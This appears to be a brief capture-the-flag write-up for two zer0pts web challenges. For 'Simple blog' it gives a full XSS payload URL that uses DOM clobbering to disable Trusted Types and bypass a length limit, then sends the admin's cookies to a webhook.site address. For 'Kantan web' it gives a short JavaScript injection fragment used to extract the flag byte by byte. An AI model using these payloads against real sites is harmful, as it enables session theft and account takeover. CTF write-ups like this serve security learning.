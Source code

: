 ## Simple blog

1. Disable trusted types with dom clobbering
2. Define callback with dom clobbering
3. Bypass length limit with `q:q.innerHTML=b.alt`
4. XSS and steal admin's cookies
```
web.ctf.zer0pts.com:8003/?theme=light"><iframe srcdoc="<input id=defaultPolicy>" name=trustedTypes></iframe><a id=callback href=q:q.innerHTML=b.alt;></a><script id=q></script><input id=b alt='document.location=`https://webhook.site/9abb0e24-59a6-4a0f-b117-5beadcec500a?a=${document.cookie}`'>
```

## Kantan web

`});(Date=_=>(Date+'')[34]+{/*`

extract flag byte by byte
